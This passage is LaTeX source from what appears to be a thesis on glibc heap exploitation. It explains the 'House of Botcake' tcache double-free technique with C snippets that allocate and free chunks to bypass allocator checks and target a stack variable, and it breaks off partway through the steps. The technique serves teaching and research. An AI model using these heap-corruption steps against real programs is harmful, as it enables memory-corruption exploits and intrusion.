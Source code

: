 \documentclass{masterthesis}
\newcommand*\libc{glibc}
\newcommand*\tch{tcache}
\newcommand*\ub{unsorted bins}
\newcommand*\mallocc{\lstinline{malloc}\xspace}
\begin{document}
The final step is free \lstinline{b} after free \lstinline{b} it is merged without fake chunk, so next \mallocc{} returns our fake chunk.

\begin{lstlisting}[language=c,frame=tlrb]
free(b);
d = malloc(0x200);
\end{lstlisting}


\subsection{ The House of Botcake}
\label{subsect:housebotcake}
The goal is to bypass \libc{} security checks in newer versions to perform a \tch{} double-free attack.
Consider the following code, like always, first; we assume our target is at the stack.

\begin{lstlisting}[language=c,frame=tlrb]
intptr_t stack_var[4];
\end{lstlisting}
Now, we allocate seven chunks to fill up the \tch{} in the future. As we remember, we did this trick before too.

\begin{lstlisting}[language=c,frame=tlrb]
intptr_t *x[7];
for(int i=0; i<sizeof(x)/sizeof(intptr_t*); i++){
	x[i] = malloc(0x100);
}
\end{lstlisting}

The next step is to define a chunk to merge \lstinline{prev} and define the victim \lstinline{a}; also, we define a small chunk to prevent merge chunks with the top chunk after free.

\begin{lstlisting}[language=c,frame=tlrb]
intptr_t *prev = malloc(0x100);
intptr_t *a = malloc(0x100);
malloc(0x10);
\end{lstlisting}

As we mention, we need to fill up \tch{}, so, we perform the free function on the 7 chunks, as the result, heap manager force to use the \ub{} and other bins:

\begin{lstlisting}[language=c,frame=tlrb]
for(int i=0; i<7; i++){
  free(x[i]);
}
\end{lstlisting}

Now the tcahe is full. We perform the free function on the \lstinline{prev} and \lstinline{a}.

\begin{lstlisting}[language=c,frame=tlrb]
free(a);
free(prev);
\end{lstlisting}
\end{document}
